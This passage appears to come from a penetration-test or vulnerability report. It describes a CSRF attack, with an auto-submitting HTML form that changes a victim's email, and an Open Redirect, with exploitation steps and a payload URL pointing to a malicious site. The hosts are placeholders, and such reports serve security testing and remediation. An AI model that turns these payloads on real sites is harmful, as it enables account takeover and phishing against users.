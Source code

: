 #### Code Examples

**HTML:**
```html

<html>
  <body onload="document.getElementById('csrf-form').submit();">
    <form id="csrf-form" action="http://example.com/account/settings" method="POST">
      <input type="hidden" name="update_email" value="malicious_value" />
    </form>
  </body>
</html>
```

#### Command Examples

#### Required Tools

- Custom HTML page
- Burp Suite
- OWASP ZAP

#### Potential Impact

- Unauthorized state-changing operations performed on behalf of the victim
- Account settings modifications
- Unauthorized financial transactions
- Data manipulation
- Privilege escalation
- Account takeover

---

### Open Redirect (Medium)

**Affected Component:** http://example.com/redirect (url parameter)

**Description:** An attacker manipulates a redirect parameter in a vulnerable application, causing users to be redirected to a malicious site that may appear legitimate. This can be used in phishing attacks to steal credentials or distribute malware.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://example.com/redirect
2. Craft a malicious URL using the vulnerable parameter: url
3. Set the redirect destination to an attacker-controlled site
4. Send the crafted URL to potential victims

#### Example Payloads

```
https://legitimate-site.com/redirect?url=https://malicious-site.com
```

#### Code Examples
